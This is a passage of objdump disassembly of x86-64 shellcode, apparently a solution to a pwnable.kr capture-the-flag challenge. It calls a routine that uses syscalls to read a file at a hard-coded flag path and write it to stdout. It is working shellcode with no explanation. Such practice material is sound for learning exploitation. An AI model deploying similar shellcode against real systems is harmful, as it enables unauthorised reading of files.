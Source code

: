 ```
  400094:	48 89 c7             	mov    %rax,%rdi
  400097:	48 31 c0             	xor    %rax,%rax
  40009a:	48 89 ee             	mov    %rbp,%rsi
  40009d:	48 31 c9             	xor    %rcx,%rcx
  4000a0:	b1 e9                	mov    $0xe9,%cl

00000000004000a2 <incrbp>:
  4000a2:	48 ff c5             	inc    %rbp
  4000a5:	e2 fb                	loop   4000a2 <incrbp>
  4000a7:	b2 ff                	mov    $0xff,%dl
  4000a9:	0f 05                	syscall 
  4000ab:	48 31 ff             	xor    %rdi,%rdi
  4000ae:	48 ff c7             	inc    %rdi
  4000b1:	48 89 c2             	mov    %rax,%rdx
  4000b4:	48 31 c0             	xor    %rax,%rax
  4000b7:	48 ff c0             	inc    %rax
  4000ba:	0f 05                	syscall 

00000000004000bc <setup>:
  4000bc:	e8 c1 ff ff ff       	call   400082 <shellcode>

00000000004000c1 <flag>:
  4000c1:	2e 2f                	cs (bad) 
  4000c3:	74 68                	je     40012d <flag+0x6c>
  4000c5:	69 73 5f 69 73 5f 70 	imul   $0x705f7369,0x5f(%rbx),%esi
  4000cc:	77 6e                	ja     40013c <flag+0x7b>
  4000ce:	61                   	(bad)  
  4000cf:	62                   	(bad)  
  4000d0:	6c                   	insb   (%dx),%es:(%rdi)
  4000d1:	65 2e 6b 72 5f 66    	gs imul $0x66,%gs:0x5f(%rdx),%esi
  4000d7:	6c                   	insb   (%dx),%es:(%rdi)
  4000d8:	61                   	(bad)  
  4000d9:	67 5f                	addr32 pop %rdi
  4000db:	66 69 6c 65 5f 70 6c 	imul   $0x6c70,0x5f(%rbp,%riz,2),%bp
  4000e2:	65 61                	gs (bad) 
  4000e4:	73 65                	jae    40014b <flag+0x8a>
  4000e6:	5f                   	pop    %rdi
  4000e7:	72 65                	jb     40014e <flag+0x8d>
  4000e9:	61                   	(bad)  
  4000ea:	64 5f                	fs pop %rdi
  4000ec:	74 68                	je     400156 <flag+0x95>
  4000ee:	69 73 5f 66 69 6c 65 	imul   $0x656c6966,0x5f(%rbx),%esi
  4000f5:	2e 73 6f             	jae,pn 400167 <flag+0xa6>
  4000f8:	72 72                	jb     40016c <flag+0xab>
  4000fa:	79 5f                	jns    40015b <flag+0x9a>
  4000fc:	74 68                	je     400166 <flag+0xa5>
  4000fe:	65 5f                	gs pop %rdi
  400100:	66 69 6c 65 5f 6e 61 	imul   $0x616e,0x5f(%rbp,%riz,2),%bp
  400107:	6d                   	insl   (%dx),%es:(%rdi)
  400108:	65 5f                	gs pop %rdi
  40010a:	69 73 5f 76 65 72 79 	imul   $0x79726576,0x5f(%rbx),%esi
  400111:	5f                   	pop    %rdi
  400112:	6c                   	insb   (%dx),%es:(%rdi)
  400113:	6f                   	outsl  %ds:(%rsi),(%dx)
  400114:	6f                   	outsl  %ds:(%rsi),(%dx)
  400115:	6f                   	outsl  %ds:(%rsi),(%dx)
  400116:	6f                   	outsl  %ds:(%rsi),(%dx)
  400117:	6f                   	outsl  %ds:(%rsi),(%dx)
  400118:	6f                   	outsl  %ds:(%rsi),(%dx)
  400119:	6f                   	outsl  %ds:(%rsi),(%dx)
  40011a:	6f                   	outsl  %ds:(%rsi),(%dx)
  40011b:	6f                   	outsl  %ds:(%rsi),(%dx)
  40011c:	6f                   	outsl  %ds:(%rsi),(%dx)
```